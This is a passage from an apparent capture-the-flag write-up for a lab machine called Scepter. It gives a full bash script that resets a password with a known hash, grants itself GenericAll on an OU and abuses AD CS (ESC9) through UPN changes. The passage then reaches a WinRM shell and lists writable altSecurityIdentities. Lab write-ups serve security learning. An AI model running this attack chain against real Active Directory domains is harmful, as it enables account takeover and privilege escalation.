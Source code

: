 Here is the full solution script:
```bash
#!/bin/bash

set -eux

ntpx() {
  faketime "$(ntpdate -q $(cat ip.txt) | cut -d ' ' -f 1,2)" "$@"
}

username="h.brown"
# change a.carter password
bloodyAD -u d.baker -p :18b5fb0d99e7a475316213c15b6f22ce --host dc01.scepter.htb -d scepter.htb set password a.carter 'asdf1234$Ba'

# give d.baker GenericAll on the OU
bloodyAD -u a.carter -p 'asdf1234$Ba' --host dc01.scepter.htb -d scepter.htb add genericAll 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' a.carter

# change d.baker upn, this is for ESC9
ntpx certipy account update -username a.carter@scepter.htb -password 'asdf1234$Ba' -user d.baker -upn $username -dc-ip $(cat ip.txt)

# change d.baker mail attribute
bloodyAD -u a.carter -p 'asdf1234$Ba' --host dc01.scepter.htb -d scepter.htb set object d.baker mail -v $username@scepter.htb

# enroll on the certificate
ntpx certipy req -username d.baker@scepter.htb -hashes aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce -ca scepter-DC01-CA -template StaffAccessCertificate -dc-ip $(cat ip.txt)

# change back d.baker upn, last ESC9 step
ntpx certipy account update -username a.carter@scepter.htb -password 'asdf1234$Ba' -user d.baker -upn d.baker@scepter.htb -dc-ip $(cat ip.txt)

# auth will give us $username hash and cert now
ntpx certipy auth -pfx d.baker.pfx -domain scepter.htb -username $username -dc-ip $(cat ip.txt)
```

winrm is very picky, the correct command:
```bash
export KRB5CCNAME=./h.brown.ccache
evil-winrm -i dc01.scepter.htb -r scepter.htb
*Evil-WinRM* PS C:\Users\h.brown\Documents> type ..\Desktop\user.txt
313d0***************************
```

Looking at `h.brown` writable properties shows that he can edit `p.adams` altSecurityIdentities.
```bash
export KRB5CCNAME=./h.brown.ccache
ntpx bloodyAD -k --host dc01.scepter.htb get writable --detail
# distinguishedName: CN=p.adams,OU=Helpdesk Enrollment Certificate,DC=scepter,DC=htb
# altSecurityIdentities: WRITE
```
